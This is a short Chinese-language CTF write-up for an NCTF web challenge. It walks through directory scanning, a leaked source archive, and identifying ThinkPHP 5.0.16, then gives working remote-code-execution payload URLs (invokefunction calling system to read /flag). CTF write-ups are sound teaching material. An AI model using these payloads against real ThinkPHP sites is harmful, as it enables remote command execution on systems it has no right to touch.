 NCTF-摆就完事了1 writeup

首次访问题目环境显示403 Forbidden

![web-1.1](C:\Users\wlen\Desktop\img\web-1.1.png)

先上dirsearch扫一波目录，看看有啥东西：

![web-1.2](C:\Users\wlen\Desktop\img\web-1.2.png)

发现有源码的压缩包，（还有个DS_Store文件泄漏，不过这里都有源码了。。），下载下来看看：

![web-1.3](C:\Users\wlen\Desktop\img\web-1.3.png)

tp的框架，emm,先看下版本，直接添加路径致报错查看版本号

![web-1.4](C:\Users\wlen\Desktop\img\web-1.4.png)

tp5.0.16,这个版本的tp有rce的nday,

尝试添加默认路由

`/public/index.php/index/index/index?s=index/\think\view\driver\Php/display&content=<?php phpinfo();?>`

`/public/index.php?s=index|think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=cat${IFS}/flag`

![web-1.5](C:\Users\wlen\Desktop\img\web-1.5.png)

查看flag:

`<?php%20system("cat /flag");?>` `cat${IFS}/flag`

![web-1.6](C:\Users\wlen\Desktop\img\web-1.6.png)

![web-1.7](C:\Users\wlen\Desktop\img\web-1.7.png)
